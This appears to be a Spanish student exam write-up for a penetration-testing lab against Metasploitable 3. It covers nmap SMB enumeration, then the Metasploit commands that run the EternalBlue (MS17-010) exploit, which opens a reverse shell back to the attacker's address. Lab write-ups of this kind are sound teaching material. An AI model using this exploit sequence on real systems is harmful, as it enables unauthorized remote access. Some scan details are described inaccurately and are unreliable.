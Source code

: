 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [reconnaissance, weaponization , delivery exploitation, installation , actions on object, Conclusions]
tags: [nmap, kali linux , metasploit]  # TAG names should always be lowercase
---
```

# **2.1. Escaneo de Red y Enumeración de Servicios** 
Utiliza Nmap desde tu máquina atacante para descubrir servicios activos en la máquina objetivo. Debes identificar los puertos relacionados con SMB y verificar si SMBv1 está habilitado.
Tip: Investiga cuáles son los 02 puertos asociados con el servicio SMB. Luego, investiga como puedes usar nmap con el flag --script para una enumeración detallada. Al analizar el output del comando, buscar específicamente el término SMBv1 o el protocolo NT LM 0.12 en la lista de protocolos. Ello indicará la presencia del servicio SMBv1.
Escribe el comando que usaste en Nmap y explica brevemente cómo determina si SMBv1 está activo.

![IMG1](/assets/imagen/image1.png)

Realizamos habilitar el rol file service.

![IMG2](/assets/imagen/image2.png)

Para descubrir los servicios activos en la máquina objetivo y verificar si SMBv1 está habilitado, se puede utilizar el siguiente comando Nmap:

![IMG3](/assets/imagen/image3.png)

![IMG4](/assets/imagen/image4.png)

El comando sudo nmap -sn 10.0.2.0 (privilegio administrador ) realiza un escaneo de red de tipo ping (TCP SYN) en la red 10.0.2.0/24, que abarca 256 direcciones IP (de 10.0.2.1 a 10.0.2.254).

![IMG5](/assets/imagen/image5.png)

Los dos puertos más comúnmente asociados con el servicio SMB (Server Message Block) son:
Puerto 139 (NetBIOS-ssn): Este puerto se utiliza para el tráfico SMB/CIFS (Common Internet File System) a través de NetBIOS. 
 Puerto 445 (Microsoft-ds): Este puerto se utiliza para el tráfico SMB/CIFS directamente sobre TCP/IP, sin utilizar NetBIOS.
En Metasploitable 3 nos  muestra la conexiones locales con los puertos.

![IMG6](/assets/imagen/image6.png)

![IMG7](/assets/imagen/image7.png)

smb-enum-shares:
•	Este script enumera los recursos compartidos SMB disponibles en la máquina objetivo.
•	El resultado mostrará una lista de los recursos compartidos, junto con información como el nombre del recurso, los permisos de acceso, y si el recurso está oculto o no.
smb-enum-users:
•	Este script enumera los usuarios del sistema operativo a los que se puede acceder a través de SMB.
•	El resultado mostrará una lista de usuarios, junto con su nombre de usuario, identificador de usuario (RID) y otros detalles.
smb-protocols:
•	Este script verifica qué versiones de SMB (incluyendo SMBv1) están habilitadas en el sistema.
•	El resultado mostrará una lista de los protocolos SMB soportados por el servidor, incluyendo si SMBv1 está presente.

![IMG8](/assets/imagen/image8.png)

El proceso para escanear la red y enumerar los servicios activos, específicamente los relacionados con SMB, en la máquina objetivo usando Nmap es el siguiente:
1.	Utilizar el comando nmap -sn 10.0.2.0/24 para realizar un escaneo de tipo ping en la red 10.0.2.0/24 y determinar qué hosts están activos.
2.	Una vez identificados los hosts activos, utilizar el comando nmap -p139,445 --script=smb-enum-shares,smb-enum-users,smb-protocols  10.0.2.4 para enumerar los servicios SMB.

# **2.2. Exploración de la Vulnerabilidad (2 puntos)
![IMG9](/assets/imagen/image9.png)
![IMG10](/assets/imagen/image10.png)

El funcionamiento :
msfconsole -q
Es la interfaz de línea de comandos principal del framework Metasploit, una herramienta de pruebas de penetración ampliamente utilizada en el mundo de la seguridad informática.
use exploit/windows/smb/ms17_010_eternalblue 
El Funcionamiento del módulo exploit/windows/smb/ms17_010_eternalblue:
1.	El módulo aprovecha la vulnerabilidad EternalBlue (MS17-010) en la implementación de SMBv1 en sistemas operativos Windows.
2.	Cuando se ejecuta este módulo, Metasploit envía una serie de solicitudes SMB especialmente diseñadas al sistema objetivo.
3.	Estas solicitudes SMB explotan la vulnerabilidad EternalBlue, lo que permite la ejecución de código arbitrario en el sistema objetivo.
4.	Una vez que se logra la ejecución de código, el módulo establece una conexión de tipo reverse shell, donde el sistema objetivo se conecta de vuelta a la máquina atacante, permitiendo así el acceso remoto al sistema.

![IMG11](/assets/imagen/image11.png)
Donde los comandos 


set RHOSTS 10.0.2.4

set LHOST 10.0.2.9
 
Donde <10.0.2.4 > es la dirección IP de la máquina objetivo y <10.0.2.9> es la dirección IP de la máquina atacante.
Verificar que el módulo esté configurado correctamente:

show options

Ejecutar el módulo para explotar la vulnerabilidad:
Exploit




